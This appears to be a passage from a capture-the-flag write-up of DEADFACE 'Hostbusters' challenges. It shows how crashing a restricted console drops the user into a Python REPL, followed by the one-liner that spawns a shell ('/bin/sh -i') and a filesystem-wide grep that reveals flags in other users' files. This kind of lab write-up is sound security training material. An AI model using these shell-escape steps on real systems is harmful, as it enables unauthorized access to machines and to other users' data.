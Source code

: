 ```sh,name=forensics /etc/passwd
    with Popen(*popenargs, **kwargs) as process:
         ^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.12/subprocess.py", line 1026, in __init__
    self._execute_child(args, executable, preexec_fn, close_fds,
  File "/usr/lib/python3.12/subprocess.py", line 1955, in _execute_child
    raise child_exception_type(errno_num, err_msg, err_filename)
FileNotFoundError: [Errno 2] No such file or directory: 'file'
>>>
```

???

The shell crashed and we are in a python REPL now. REPL means read-eval-print
loop and is the interactive python interpreter. Most importantly it gives us
FULL access to ALL of python. Let's start a normal shell and see why this 
happened:</br>
`import os;os.system('/bin/sh -i')`

First let's look at the shell that we started when we connected:
```sh,name=cat /usr/bin/dfsh
#!/bin/sh
python3 -i /usr/local/bin/pen-console.py
```

This explains a lot as `python -i` runs a interactive shell and gives you are 
REPL whenever the programm finishes.
```txt,name=python --help
-i     : inspect interactively after running script; forces a prompt even
         if stdin does not appear to be a terminal; also PYTHONINSPECT=x
```

This means no matter how we quit / crash the programm we get the REPL. This 
actually happend for me on accident because I tried to quit the shell with
<kbd>CTRL</kbd>-<kbd>C</kbd> and got into the interactive python interpreter.
Another way to achieve this is to type `quit` in the `pen-console.py` shell.

---

<center>
    <h1>Pulse Check<h1>
</center>
{% alert(type="info", icon="info", title="Pulse Check (125)") %}
What is this machine doing? Our team has looked in various files and we can’t 
seem to locate the 7th flag. Maybe we need to characterize this host more.

Submit the flag as `deadface{flag_text}`.

ℹ️	Use the connection information from Hostbusters: Let Me In
{% end %}

So this is all about searching for the flag somewhere 'on' the system. To
achieve this let's first start by trying to grab all flags we have access to
on the system. Note: I will be using the deephax user here.

```sh,name=grep -r 'deadface' / 2>/dev/null
/home/deephax/.ash_history:grep -r 'deadface' / 2>/dev/null
/home/gh0st404/.dont_forget:deadface{hostbusters2_4685d0c801939781}
/home/gh0st404/notes.txt:deadface{hostbusters1_cf6a12ddf781cfbc}
/usr/local/bin/pen-console.py:flag="deadface{hostbusters5_e16a5c8995620a24}"
/etc/logclean.sh:echo "deadface{hostbusters3_0547796725934bbd}"
```
